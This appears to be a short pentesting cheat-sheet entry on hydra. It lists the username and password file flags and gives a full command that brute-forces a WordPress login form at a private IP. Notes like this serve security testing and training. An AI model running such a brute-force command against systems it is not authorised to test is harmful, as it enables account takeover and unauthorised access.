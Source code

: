 === hydra
_enumeration_, _password cracking_

hydra brute forces logins to various services.

==== Common Flags

[cols="1,3", options="header"]
|===
|Flag            |Description
|`-L users.txt`  |File containing usernames
|`-P passes.txt` |File containing passwords
|===

==== Common Usage

  hydra -L users.txt -P pass.txt 192.168.1.1 http-form-post \
  "/wp-login.php:log=^USER^&pwd=^PASS^:login_error"

Check every user/pass combination from `users.txt` and `pass.txt` against the wordpress instance on `192.168.1.1` at `/wp-login.php`.
